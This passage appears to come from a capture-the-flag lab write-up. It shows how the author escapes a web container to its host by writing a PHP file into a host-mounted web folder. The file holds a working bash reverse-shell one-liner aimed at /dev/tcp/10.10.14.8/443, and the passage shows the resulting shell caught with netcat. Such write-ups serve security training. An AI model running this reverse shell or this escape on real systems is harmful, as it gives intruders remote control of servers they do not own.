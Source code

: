     drwxr-xr-x 16 www-data www-data    4096 Aug 14  2017 plugins
    -rw-r--r--  1 www-data www-data     836 Aug 14  2017 robots.txt
    drwxr-xr-x  5 www-data www-data    4096 Aug 14  2017 templates
    drwxr-xr-x  2 www-data www-data    4096 Sep  6  2017 tmp
    -rw-r--r--  1 www-data www-data    1690 Aug 14  2017 web.config.txt
    -rw-r--r--  1 www-data www-data    3736 Sep  6  2017 wordpress-shell.php
    

A directory called `/files` is the only thing owned by root. In it, is
`lcars.zip`:

    
    
    www-data@a7018bfdc454:/var/www/html/files$ ls
    lcars.zip
    

That was on the HTTPS website above, so it’s interesting it’s here.

`mount` shows that it’s actually a folder from the host being mapped into the
container:

    
    
    www-data@a7018bfdc454:/var/www/html/files$ mount -l | grep files
    /dev/mapper/enterprise--vg-root on /var/www/html/files type ext4 (rw,relatime,errors=remount-ro,data=ordered)
    

If I write to it, that shows up on the HTTP site:

    
    
    www-data@a7018bfdc454:/var/www/html$ echo "is this the same site" > files/0xdf>
    

From my VM:

    
    
    oxdf@parrot$ curl -s -k https://10.10.10.61/files/0xdf.txt
    is this the same site
    

### Shell

I’ll write a reverse shell into a PHP file:

    
    
    www-data@a7018bfdc454:/var/www/html$ echo -e "<?php\nsystem(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'\");\n?>"                  
    <?php
    system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'");
    ?>
    www-data@a7018bfdc454:/var/www/html$ echo -e "<?php\nsystem(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'\");\n?>" > files/0xdf.php 
    

Now on visiting `https://10.10.10.61/files/0xdf.php`, I get a shell at `nc`:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.61] 54496
    bash: cannot set terminal process group (1507): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@enterprise:/var/www/html/files$ 
    